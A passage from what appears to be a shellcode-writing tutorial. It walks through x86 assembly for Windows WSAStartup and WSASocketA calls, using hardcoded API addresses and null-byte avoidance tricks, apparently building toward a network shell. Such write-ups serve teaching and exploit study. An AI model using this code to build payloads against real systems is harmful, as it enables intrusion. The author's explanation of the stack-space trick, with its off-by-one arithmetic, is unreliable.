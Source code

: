 Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup">https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup</a>  
Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata">https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata</a>

Syntax:
```
WSAStartup(WORD wVersionRequired, LPWSADATA lpWSAData)
```

The next system call we need to run is WSAStartup() to initialize the use of sockets. It takes two arguments, where the first is the version we are going to use and the second is a pointer to a place to store socket data.

```assembly
add esp, 0xFFFFFE70 ; Creating space for WSAData (400 bytes)
push esp            ; Arg2 (lpWSAData) = pointer to WSData
push 0x101          ; Arg1 (wVersionRequired) = 1.1
mov eax, 0x71ab6a55 ; Address to WSAStartup()
call eax
```

The first instruction is `add esp, 0xFFFFFE70`, which is a way of creating space on the stack without generating null bytes. The normal way of achieving this would be to subtract a value from ESP (remember the stack grows downwards). However, this results in null bytes:
```
nasm > sub esp, 0x190
00000000  81EC90010000      sub esp,0x190
```

I'm not sure why this trick works, but by inverting the logic it works in our favor.
`0xFFFFFFFF - 0xFFFFFE70 = 0x18F = 399`

## System call: WSASocketA

Documnetation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa</a>

Syntax:
```
WSASocketA(int af, int type, int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags)
```

Now we need to create a socket. This function takes a few parameters, like information about the socket type. 

```assembly
xor eax, eax         ; Clear eax
push eax             ; Arg6 (dwFlags) = 0
push eax             ; Arg5 (g) = 0
push eax             ; Arg4 (lpProtocolInfo) = 0
push eax             ; Arg3 (protocol) = IPPROTO_TCP
push 0x1             ; Arg2 (type) = SOCK_STREAM
push 0x2             ; Arg1 (af) = AF_INET
mov eax, 0x71AB8B6A  ; Address to WSASocketA()
call eax
mov ebx, eax 
```
